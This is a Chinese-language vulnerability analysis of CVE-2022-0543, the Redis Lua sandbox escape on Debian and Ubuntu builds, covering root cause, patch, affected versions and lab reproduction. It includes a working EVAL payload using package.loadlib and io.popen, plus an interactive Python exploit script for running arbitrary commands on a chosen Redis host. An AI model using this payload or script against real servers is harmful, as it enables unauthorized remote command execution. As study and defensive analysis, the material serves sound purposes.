




# CVE-2022-0543 CWE-862 Redis Lua 沙箱逃逸RCE

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。Redis 为了支持 Lua 脚本功能，在 Lua 虚拟机中创建了一个受限制的执行环境（沙盒）。客户端可以通过 `EVAL` 命令执行 Lua 脚本，这些脚本主要用于操作 Redis 的键值数据，并调用 Redis API，但不能在运行 Redis 的机器上执行任意代码。
- **沙箱**：一种安全机制，允许在一个隔离的环境中运行应用程序或代码，以避免恶意软件对主机系统的影响。工作原理是创建一个隔离的运行时环境，这个环境与主机系统隔离，沙箱内的文件和进程无法访问沙箱外的资源。沙箱内的应用程序运行在一个受限制的环境中，这限制了应用程序的权限，防止它修改系统文件或执行系统命令。
- **Lua** ：一种轻量级的编程语言，它被设计为易于嵌入应用程序中，提供脚本功能。以其简洁的语法和动态类型系统而闻名，它支持多种编程范式，包括过程式编程、面向对象的编程和函数式编程。

## 漏洞原理

 在用户连接 redis 后，可以通过`eval`命令执行 lua 脚本，但这个脚本跑在沙盒里，正常情况下无法执行命令和读取文件。Debian 以及 Ubuntu 发行版的源在打包 Redis 时，在 Lua 沙箱中遗留了一个对象`package`。`package` 模块提供了动态库加载功能，通过其 `loadlib` 函数，用户可以加载系统库（`.so` 文件），调用库内的函数。攻击者可以利用这个对象提供的方法加载动态链接库`liblua`里的函数，进而逃逸沙箱执行任意命令（同时利用该漏洞需要具备可在 Redis 中执行`eval`命令的权限）

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在 Lua 中执行这个导出函数，即可获得`io`库，再使用其执行`id`命令：

```cmd
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

## 漏洞定位

**1、Redis官方源代码**

 **redis-5.0.7\src\scripting.c** 文件，负责实现 Redis 的 Lua 脚本功能，其中第 **854** 行，在这段代码中，`luaLoadLib` 函数被用来加载 Lua 标准库到 Lua 环境中。`LUA_LOADLIBNAME` 和 `LUA_OSLIBNAME` 是 Lua 中定义的宏，分别对应于加载包（package）库和操作系统（os）库的名称。`luaopen_package` 和 `luaopen_os` 是 Lua 标准库中对应于包库和操作系统库的初始化函数。

```c
#if 0 /* Stuff that we don't load currently, for sandboxing concerns. */
    luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);
    luaLoadLib(lua, LUA_OSLIBNAME, luaopen_os);
#endif
```

在这个特定的上下文中，`package` 库允许 Lua 脚本加载其他 Lua 模块，而 `os` 库提供了一些操作系统级别的功能，如文件操作和系统命令执行。被 `#if 0` 和 `#endif` 包裹，这表示该代码块当前被预处理器指令禁用，不会在编译时执行，即这些功能在 Redis 的 Lua 沙箱环境中被禁用，以确保脚本不能执行可能危害服务器安全的操作。

**2、Redis 的 Debian 软件包源代码**

Ubuntu/Debian/CentOS 等这些发行版本会在原始软件的基础上打一些补丁包给 Redis 打了一个的补丁，增加了一个 include。在 Redis 的 Debian 软件包源代码中， **redis-5.0.7-debian\debian\rules** 文件。这个文件包含了构建和安装 Redis 软件包的指令，是 Debian 通过 shell 使用make 生成的补丁包源码，其中第 **30** 行是 Debian 构建系统中用于生成 `lua_libs_debian.c` 文件的 `make` 规则。这个文件是 Redis 项目的一部分，用于在 Redis 的 Lua 环境中加载 Debian 特定的 Lua 库。

```shell
debian/lua_libs_debian.c:
	echo "// Automatically generated; do not edit." >$@
	echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
	set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
		echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
		echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
	done
	echo 'luaL_dostring(lua, "module = nil; require = nil");' >>$@
```

其中的`echo luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);`语句就是漏洞来源，这行命令向文件中追加本已经被注释的代码，调用 `luaLoadLib` 函数来加载 Lua 的 `package` 库，导致在 Lua 沙箱中遗留了一个对象 package，攻击者可以利用这个 package 对象提供的方法加载动态链接库 liblua 里的函数，进而逃逸沙箱执行任意命令。

借助 Lua 沙箱中遗留的变量 package 的 loadlib 函数来加载动态链接库 /usr/lib/x86_64-linux-gnu/liblua5.1.so.0 里的导出函数luaopen_io。在 Lua 中执行这个导出函数，即可获得io库，再使用其执行命令。

## 漏洞修复

这里查看无漏洞的版本 redis-server_5.0.14-1+deb10u2_amd64.deb，修复办法是在Lua初始化的末尾添加`package=nil`

[File: rules | Debian Sources](https://sources.debian.org/src/redis/5%3A5.0.14-1%2Bdeb10u2/debian/rules/) 

```shell
debian/lua_libs_debian.c:
	echo "// Automatically generated; do not edit." >$@
	echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
	set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
		echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
		echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
	done
	echo 'luaL_dostring(lua, "module = nil; require = nil; package = nil");' >>$@
```

## 影响版本

只限于Debian 和 Debian 派生的 Linux 发行版（如Ubuntu）上的 Redis 服务。

**Debian**:

- Debian 11 “bullseye”：5:6.0.16-1+deb11u2 之前的版本
- Debian 10 “buster”：5:5.0.14-1+deb10u2 之前的版本
- Debian 9 “stretch”：4.0.2-2+deb9u5 之前的版本

**Ubuntu**:

- Ubuntu 21.10：6.0.15-1 之前的版本
- Ubuntu 20.04 LTS：5.0.7-2ubuntu0.2 之前的版本
- Ubuntu 18.04 LTS：4.0.9-1ubuntu0.2 之前的版本

## 环境搭建

使用 docker 启动 Redis 5.0.7 



**docker**

使用 ubuntu 20.04 作为基础镜像，查看库中redis-server的版本有两个。



在ubuntu官网中查看redis-server的更新日志，可以看到5:5.0.7-2ubuntu0.1版本漏洞已经被修复，使用选择5:5.0.7-2的版本


## 漏洞复现

在攻击机中使用 redis-cli 工具连接靶机的 redis 服务器，并构造以下 payload 进行命令执行。

```cmd
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

成功执行了`id`命令。



## POC分析

```cmd
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

其中，

1. 使用 `package.loadlib` 动态加载指定路径的 `liblua5.1.so.0` 库，并获取 `luaopen_io` 函数（用于加载 `io` 模块）。但不同环境下的 liblua 库路径不同（使用命令`find / -name liblua5.1.so.0`查找路径），Vulhub 环境（Ubuntu focal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

   ```cmd
   local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
   ```

2. 调用导出函数 `luaopen_io` ，返回 Lua 中的 `io` 库模块并将返回的结果赋值给 `io` 变量，模拟 Lua 的内置 `io` 模块，使得我们可以直接访问并使用 `io` 库中的所有方法。

   ```cmd
   local io = io_l();
   ```

3. 使用 `io.popen` 打开一个管道执行 `id` 命令，读取返回值。这个命令会输出当前用户的 ID、组 ID 等信息。

   ```cmd
   local f = io.popen("id", "r");
   ```

4. 读取 `id` 命令的全部输出并存储到 `res` 中。

   ```cmd
   local res = f:read("*a");
   ```

5. 关闭管道并返回 `id` 命令的结果。

   ```cmd
   f:close(); 
   return res
   ```

## EXP分析

运行 EXP 文件，输入相关参数，成功进入命令行执行命令

```cmd
 python CVE-2022-0543-EXP.py
```



```python
import redis
import sys

def echoMessage():

#生成 Lua 脚本 lua，其中通过 io.popen 执行系统命令 cmd
def shell(ip,port,cmd,auth):
	lua= 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'+cmd+'", "r"); local res = f:read("*a"); f:close(); return res'
	r  =  redis.Redis(host = ip,port = port, password = auth)
	script = r.eval(lua,0)
	print(script)

if __name__ == '__main__':
	ip = input("Please input redis ip:\n>>")
	port = input("Please input redis port:\n>>")
	auth = input("Auth:\n>>")
	if auth == "":
		auth = None
	while True:
		cmd = input("input exec cmd:(q->exit)\n>>")
		if cmd == "q" or cmd == "exit":
			sys.exit()
		shell(ip,port,cmd,auth)
```

## 参考链接

[vulhub/redis/CVE-2022-0543](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)

[春秋云境：CVE-2022-0543（Redis 沙盒逃逸漏洞）](https://blog.csdn.net/m0_65712192/article/details/132407631)

[CVE-2022-0543 Redis 沙盒逃逸分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/news/325729.html)

[CVE-2022-0543复现 | redis的远程代码执行漏洞 - h0cksr - 博客园](https://www.cnblogs.com/h0cksr/p/16189735.html)

[意外的 Redis 沙箱逃逸，仅影响 Debian、Ubuntu 和其他 Debian 衍生产品 ](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce)

